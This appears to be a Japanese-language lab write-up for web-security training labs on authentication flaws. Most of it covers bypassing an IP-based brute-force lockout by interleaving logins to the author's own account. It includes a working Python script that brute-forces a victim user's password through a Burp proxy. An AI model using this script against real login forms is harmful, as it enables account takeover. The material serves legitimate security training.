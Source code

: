 割とguessingが強いラボですが、まぁしゃあない。ということでレスポンスタイムが長いやつに当たりをつけて再度passwordのブルートフォースを行います。

この時何回かusernameに対してブルートフォースを仕掛け比較的長いやつに当たりをつけると良さそうです。

mysqlあたりでやてみますか。。

違うみたい。だる

> めんどくさすぎるのでやめる
> 

## Broken brute-force protection, IP block

---

my credentials wiener:peter
victim carlos

IPブロックっぽいのでX-Forwarded-Forを試しながらブルートフォースを仕掛けます。

error messageは良くないですね。

試行してみるとX-Forwarded-Forはだめであることがわかります。

一度正しいアカウントにログインすると、この制限をbypassできそうです。

3回目で制限がかかるので、2回総当りしたら、3回目はログインを行うような感じにします。

### python script

[Python Requests and Burp Suite](https://www.th3r3p0.com/random/python-requests-and-burp-suite.html)

ここを見て最初に設定をしておきましょう。

```bash
import requests
import os

url = "https://0a0700c404bfa7c085fb364500a50047.web-security-academy.net/login"
os.environ["HTTP_PROXY"] = "http://127.0.0.1:8080"
os.environ["HTTPS_PROXY"] = "http://127.0.0.1:8080"
os.environ["REQUESTS_CA_BUNDLE"] = "certificate.pem"

def decoi():
    username = "wiener"
    password = "peter"
    payload = {"username": username, "password": password}
    requests.post(url, data=payload, allow_redirects=False)

def bruteforce(password):
    username = "carlos"
    payload = {"username": username, "password": password}
    response = requests.post(url, data=payload, allow_redirects=False)
    if response.status_code == 302:
        print(password)
    else:
        print("not found")

with open("/tmp/password.txt") as f:
    for line in f:
        decoi()
        bruteforce(line.replace("\n", ""))
```
